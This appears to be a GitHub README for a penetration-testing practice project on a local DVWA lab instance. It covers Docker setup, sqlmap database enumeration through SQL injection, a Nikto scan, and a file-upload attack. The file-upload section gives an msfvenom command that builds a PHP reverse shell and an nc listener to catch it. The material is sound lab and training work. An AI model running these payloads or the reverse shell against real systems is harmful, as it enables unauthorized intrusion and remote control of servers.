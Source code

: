 # DVWA Vulnerability Assessment

This project documents the process of identifying and exploiting various vulnerabilities in the **Damn Vulnerable Web Application (DVWA)**, a deliberately insecure web application designed for practicing penetration testing techniques.

---

## **Table of Contents**
1. [Project Overview](#project-overview)
2. [Setup](#setup)
   - [Installing DVWA Using Docker](#installing-dvwa-using-docker)
3. [Vulnerabilities Explored](#vulnerabilities-explored)
   - [1. SQL Injection](#1-sql-injection)
   - [2. File Upload Vulnerability](#2-file-upload-vulnerability)
   - [3. General Vulnerability Testing Using Nikto](#3-general-vulnerability-testing-using-nikto)
4. [Tools Used](#tools-used)
5. [Screenshots](#screenshots)
6. [Writeups](#writeups)
   - [SQL Injection Writeup](writeups/sql-injection.md)
   - [File Upload Vulnerability Writeup](writeups/file-upload.md)
   - [General Vulnerability Testing Using Nikto](writeups/nikto-scan.md)

---

## **Project Overview**
The goal of this project is to demonstrate practical penetration testing skills by:
1. Setting up a DVWA instance using Docker.
2. Exploring and exploiting vulnerabilities in the application, including SQL Injection and File Upload vulnerabilities.
3. Using tools such as `sqlmap`, `Nikto`, and `msfvenom` to perform the assessment.
4. Providing detailed documentation for each vulnerability with remediation suggestions.

---

## **Setup**

### Installing DVWA Using Docker
The following steps were performed to set up DVWA using Docker:

1. **Start and Enable Docker**:
   ```bash
   sudo systemctl start docker
   sudo systemctl enable docker
   ```

2. **Pull DVWA Docker Image**:
   ```bash
   sudo docker pull vulnerables/web-dvwa
   ```

3. **Run DVWA**:
   ```bash
   sudo docker run --rm -it -p 80:80 vulnerables/web-dvwa
   ```

Refer to the screenshot below for the commands executed:
![Installing DVWA Using Docker](https://github.com/user-attachments/assets/2b7ba66e-c526-4b87-8d1e-35932f432ab4)
<p align="center">Installing DVWA Using Docker </p>

4. Access the application at `http://127.0.0.1` and set the **security level to Low**.

---

## **Vulnerabilities Explored**

### 1. SQL Injection
- **Objective**: Exploit the SQL Injection vulnerability to extract sensitive information.
- **Steps**:
  1. Navigated to the **SQL Injection** module in DVWA.
  2. Used `sqlmap` to automate the exploitation.
     ```bash
     sqlmap -u "http://127.0.0.1/vulnerabilities/sqli/?id=1&Submit=Submit" \
            --cookie="PHPSESSID=<SESSION_ID>; security=low" --dbs
     ```
  3. Successfully enumerated the databases and confirmed the application is vulnerable.

For a detailed writeup, see: [SQL Injection Writeup](sql-injection.md)

---

### 2. File Upload Vulnerability
- **Objective**: Exploit the File Upload vulnerability to upload a malicious PHP payload.
- **Steps**:
  1. Used `msfvenom` to create a reverse shell payload:
     ```bash
     msfvenom -p php/reverse_php LHOST=192.168.191.128 LPORT=4444 -f raw > shell.php
     ```
  2. Uploaded the payload via the File Upload module.
  3. Triggered the payload and successfully established a reverse shell using Netcat:
     ```bash
     nc -lvnp 4444
     ```
For a detailed writeup, see: [File Upload Vulnerability Writeup](file-upload.md)

---

### 3. General Vulnerability Testing Using Nikto
- **Objective**: Scan for general vulnerabilities using `Nikto`.
- **Steps**:
  1. Ran a `Nikto` scan on the application:
     ```bash
     nikto -h http://127.0.0.1
     ```
  2. Identified issues such as outdated Apache version and missing security headers.

---

## **Tools Used**
1. **Docker**: For running the DVWA container.
2. **Nikto**: To scan for general web application vulnerabilities.
3. **Sqlmap**: To automate SQL Injection attacks.
4. **Msfvenom**: For generating a malicious PHP reverse shell payload.
5. **Netcat**: For establishing a reverse shell connection.

---

## **Screenshots**

  ![SQLmap Command Execution](https://github.com/user-attachments/assets/9be88cbf-7e4f-45ee-8f6d-942268c6ecfd)
  <p align="center"> SQLmap Command Execution </p>
   
   ![SQLmap Results](https://github.com/user-attachments/assets/2ea824fc-d18e-43b7-8d4c-1dc6347768e2)
  <p align="center"> SQLmap Results </p>

   ![Nikto Scan Results](https://github.com/user-attachments/assets/c5d334f2-ca77-47e4-97e0-f3206880479c)
  <p align="center"> Nikto Scan Results </p>

   ![Reverse Shell Connection](https://github.com/user-attachments/assets/3dc931c8-7e55-4e63-aa7d-3310bcc36991)
  <p align="center"> Reverse Shell Connection </p>

---

## **Writeups**

- [SQL Injection Writeup](sql-injection.md)
- [File Upload Vulnerability Writeup](file-upload.md)
- [Nikto Scan Writeup](nikto-scan.md)

Refer to individual writeups for detailed steps, analysis, and mitigation suggestions.

